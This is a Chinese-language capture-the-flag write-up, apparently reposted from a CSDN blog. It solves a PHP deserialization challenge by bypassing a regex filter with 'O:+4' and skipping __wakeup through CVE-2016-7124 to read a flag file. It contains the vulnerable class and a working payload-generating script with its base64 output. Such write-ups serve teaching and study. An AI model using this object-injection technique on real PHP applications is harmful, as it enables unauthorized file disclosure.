

#### 源码
unserialize()会检查存在一个__wakeup()方法。如果存在，则先会调用__wakeup()方法。
<!-- more -->
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { // 正则表达式，匹配“O:多个数字:i”
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```


看了一下主要是两个点:
1.preg_match(’/[oc]:\d+:/i’, $var)的绕过
2.unserialize时__wakeup的绕过
这里给出脚本,没有什么难点,就是两个小技巧:
> 版权声明：本文为CSDN博主「MercyLin」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/qq_40884727/article/details/101162105

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { // 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$A = new Demo('fl4g.php');
$C = serialize($A);
//string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
$C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
$C = str_replace(':1:', ':2:',$C);//绕过wakeup
var_dump($C);
//string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
var_dump(base64_encode($C));
//string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>
```


用+4替换成4是为了绕过preg_match的正则表达式

同样的把2替换成1是利用了CVE-2016-7124的漏洞，即当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

最后按照题目的意思encode一下base64就获取反序列化的结果，get传参即可


